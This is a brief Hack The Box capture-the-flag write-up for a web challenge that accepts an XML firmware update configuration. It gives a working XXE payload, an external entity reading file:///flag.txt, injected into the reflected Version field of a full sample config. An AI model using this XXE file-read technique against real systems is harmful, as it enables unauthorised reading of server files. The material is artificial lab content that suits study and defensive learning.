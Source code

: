 This HTB challenge was a website with a page containing a configuration file for firmware updates as can be seen below.
This was the most promising entry point through
- Command Injection
- Reverse Shell Spawning, and
- XXE
  
Since there is no logic to execute commands, command injection and reverse shell does not work. 
The trick, the trick therefore is to use XXE and return the file information in the Version parameter since it is the only one that is reflected back to the user.
The payload is below

```
<!--?xml version="1.0" ?-->
<!DOCTYPE FirmwareUpdateConfig [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
Add the above to the existing configuration file and change only the  Version parameter
```
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version> # This is the injection point
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```


